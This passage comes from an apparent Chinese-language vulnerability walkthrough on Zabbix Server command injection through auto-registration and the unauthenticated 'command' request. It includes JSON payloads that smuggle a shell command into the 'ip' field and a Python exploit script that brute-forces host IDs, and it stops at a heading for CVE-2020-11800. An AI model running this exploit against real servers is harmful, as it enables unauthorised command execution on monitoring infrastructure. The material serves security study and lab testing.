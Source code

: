 `active checks`是 Agent 主动检查时用于获取监控项列表的命令，Zabbix Server 在开启自动注册的情况下，通过 `active checks` 命令请求获取一个不存在的 host 时，自动注册机制会将 json 请求中的 host、ip 添加到 interface 数据表里。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```json<br>{"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))<br>``` |

第二条数据：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```JSON<br>{"request":"command","scriptid":1,"hostid":10001}<br>``` |

`command` 指令可以在未授权的情况下可指定主机 (hostid) 执行指定脚本 (scriptid)，Zabbix 存在 3 个默认脚本，脚本中的 `{HOST.CONN}` 在脚本调用的时候会被替换成主机 IP。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```fallback<br># scriptid == 1 == /bin/ping -c {HOST.CONN} 2>&1<br># scriptid == 2 == /usr/bin/traceroute {HOST.CONN} 2>&1<br># scriptid == 3 == sudo /usr/bin/nmap -O {HOST.CONN} 2>&1<br>``` |

`scriptid` 指定其中任意一个，`hostid` 为注入恶意 Payload 后的主机 id，但自动注册后的 `hostid` 是未知的，所以通过 `command` 指令遍历 `hostid` 的方式都执行一遍，最后成功触发命令注入漏洞。

由于默认脚本的类型限制，脚本都是在 Zabbix Server 上运行，Zabbix Proxy 是无法使用 command 指令的。payload 长度受限制可拆分多次执行，必须更换 host 名称以执行新的 payload。

EXP 如下：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>``` | ```python<br>import sys<br>import socket<br>import json<br>import sys<br><br><br>def send(ip, data):<br>    conn = socket.create_connection((ip, 10051), 10)<br>    conn.send(json.dumps(data).encode())<br>    data = conn.recv(2048)<br>    conn.close()<br>    return data<br><br><br>target = sys.argv[1]<br>print(send(target, {"request":"active checks","host":"vulhub","ip":";touch /tmp/success"}))<br>for i in range(10000, 10500):<br>    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})<br>    if data and b'failed' not in data:<br>        print('hostid: %d' % i)<br>        print(data)<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221202204.png-water_print](assets/1699408100-d649aa30848faf9a516888421b5dced0.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221202204.png-water_print")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221202690.png-water_print](assets/1699408100-35f5b3e66a526e3019174e2507a4b734.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221202690.png-water_print")

### [](#24-cve-2020-11800---%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5)2.4 CVE-2020-11800 - 命令注入
